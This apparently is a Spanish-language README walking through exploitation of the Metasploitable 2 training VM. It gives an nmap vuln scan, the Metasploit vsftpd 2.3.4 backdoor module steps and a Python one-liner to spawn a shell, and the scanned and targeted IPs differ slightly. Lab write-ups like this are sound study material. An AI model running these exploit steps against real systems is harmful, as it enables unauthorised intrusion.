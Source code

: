 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=60&color=19AC26FF&width=500&height=80&lines=Metasploitable 2"></a>
</p>

**sourceforge:** https://sourceforge.net/projects/metasploitable/files/Metasploitable2/

**Paso 1:**

Escaneo de puertos y vulnerabilidades con nmap.

```
sudo nmap -sS -sV --script vuln 10.10.11.6
```

<p align="center">
<img src="./Img/escaneo.png">
</p>

**Paso 2**

Como podemos observar tiene vulnerabilidad en el puerto 21 y tiene como servicio vsftpd versión 2.3.4.

Para explotar esta vulnerabilidad vamos usar metasploit:

```
msfconsole

search vsftpd

use exploit/unix/ftp/vsftpd_234_backdoor

options
```

<p align="center">
<img src="./Img/metasploit.png">
</p>

cómo podemos ver tenemos que configurar la IP de la maquina vulnerable en
RHOSTS para poder acceder.


```
set RHOSTS 10.10.10.6

exploit
```

Ahora para poder generar un línea de comandor deberemos usar el sigueinte comando:

```python
python -c 'import os; os.system("/bin/sh")'

shell
```

<p align="center">
<img src="./Img/shell.png">
</p>